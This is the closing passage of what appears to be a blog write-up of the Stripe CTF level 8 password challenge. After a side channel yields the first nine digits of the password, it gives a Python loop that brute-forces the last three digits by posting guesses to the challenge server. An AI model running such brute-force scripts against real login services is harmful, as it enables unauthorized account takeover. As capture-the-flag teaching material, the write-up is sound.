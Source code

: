 ``` python

print "Got 3/4ths of password:", guess
```

The above code gets the first 3 chunks.  Any password guess that has the first 9 digits correct will have to query the 4th chunk server, so there is no difference in source ports between correct and incorrect guesses after the first 9 digits are correct.  The rest of the password has to be bruteforced directly:

``` python
In [14]: for i in range(1000):   
....:     guess = str(i).zfill(3)
....:     r = requests.post("https://level08-1.stripe-ctf.com/user-umqrrcvswp/",data ='{"password": "350080833' + guess + '", "webhooks": []}')
....:     print "Tried:", guess   
....:     if r.text.strip() == '{"success": true}':   
....:         print "Got it: ", guess   
....:         break
```

The End
-------
And there you have it.

![The End](/assets/images/stripe-ctf/the-end.png)
